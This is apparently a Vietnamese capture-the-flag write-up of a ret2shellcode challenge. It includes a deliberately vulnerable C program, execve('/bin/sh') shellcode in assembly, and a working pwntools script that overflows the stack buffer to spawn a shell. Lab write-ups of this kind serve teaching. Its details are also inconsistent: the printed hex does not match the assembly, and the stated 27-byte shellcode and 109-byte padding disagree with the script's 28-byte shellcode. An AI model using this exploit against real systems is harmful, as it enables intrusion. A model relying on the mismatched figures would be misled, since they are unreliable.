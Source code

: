 # ret2shellcode_chall_demo_file

## ret2shellcode.c
```c
#include <stdio.h>
#include <unistd.h>
int main() {
    char buffer[128];
    printf("Buffer address: %p\n", buffer);
    read(0, buffer, 256);
    return 0;
}
```
## Kiểm tra chế độ bảo vệ
```bash
checksec chall2
```

**Kết quả:**
```
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX unknown - GNU_STACK missing
PIE:        No PIE (0x400000)
```
* **Chúng ta có một file với lỗ hổng buffer overflow và không có bảo vệ (no stack protector, no pie, excutable stack). Như vậy ta có thể chạy shellcode trên stack bằng cách ghi đè địa chỉ trả về bằng địa chỉ buffer chứa shellcode**

## Viết shell code bằng asm (shellcode.asm)
```asm
section .text
global _start
_start:
    ; execve("/bin/sh", NULL, NULL)
    xor rax, rax
    push rax                ; NULL terminator
    ; Đẩy chuỗi "/bin//sh" lên stack (8 byte, 2 dấu / để đủ 8 byte)
    mov rbx, 0x68732f2f6e69622f ; "/bin//sh" (theo thứ tự little-endian)
    push rbx
    mov rdi, rsp            ; RDI trỏ tới chuỗi "/bin//sh"
    xor rsi, rsi            ; RSI = NULL (argv)
    xor rdx, rdx            ; RDX = NULL (envp)
    mov al, 59              ; syscall number 59 (execve) - dùng al để tránh null byte
    syscall
```
### Biên dịch shellcode.asm thành object file
```bash
nasm -f elf64 shellcode.asm -o shellcode.o
```
### Trích xuất shellcode
```bash
ld shellcode.o -o shellcode
```
### Lấy shellcode dạng hex
```bash
objdump -d shellcode.o | grep -A15 "<_start>:" | grep -Po '\s\K[a-f0-9]{2}(?=\s)' | tr '\n' ' ' | sed 's/ /\\x/g'
```
* **Kết quả:**
```
\x3b\x00\x00\x00\x48\xbf\x2f\x62\x69\x6e\x2f\x73\x68\x00\x57\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x0f\x05
```
## Viết script khai thác
Chúng ta cần:

* Lấy địa chỉ buffer từ chương trình.
* Tạo payload: [shellcode] + [padding] + [địa chỉ buffer]
Padding: 128 (kích thước buffer) + 8 (saved RBP) - độ dài shellcode
```python
#!/usr/bin/env python3

from pwn import *

# ENV
PORT = 0000
HOST = "host"
exe = context.binary = ELF('./chall2', checksec=False)
# libc = ELF('./libc.so.6', checksec=False)
# ld = ELF('', checksec=False)

def GDB():
    if not args.r:
        gdb.attach(p, gdbscript='''
            c
            set follow-fork-mode parent
            ''')

if len(sys.argv) > 1 and sys.argv[1] == 'r':
    p = remote(HOST, PORT)
else:
    p = exe.process()

p.recvuntil(b"Buffer address: ")
buffer_addr = int(p.recvline().strip(), 16)
log.info(f"Buffer address: {hex(buffer_addr)}")
# VARIABLE


# PAYLOAD
shellcode = b"\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\xb0\x3b\x0f\x05"
# Tính padding: 128 (buffer) + 8 (saved rbp) = 136
padding = b'A' * (128 + 8 - len(shellcode))
# Tạo payload: shellcode + padding + địa chỉ buffer
payload = shellcode + padding + p64(buffer_addr)

p.sendline(payload)

p.interactive()
```
### Payload:
- Đầu tiên là shellcode (27 byte).
- Sau đó là padding (109 byte ký tự 'A') để tổng cộng 136 byte.
- Cuối cùng là địa chỉ buffer (8 byte) để ghi đè return address. Sau khi return, nó sẽ nhảy đến shellcode trên stack.

## Chạy file exploit
```bash
./solve.py
```
**Kết quả sau khi lấy được shell:**
```bash
cat Flag.txt
```
```
WELL DONE! THIS IS YOUR FLAG: CTF{ISP_VO_DICH}
```
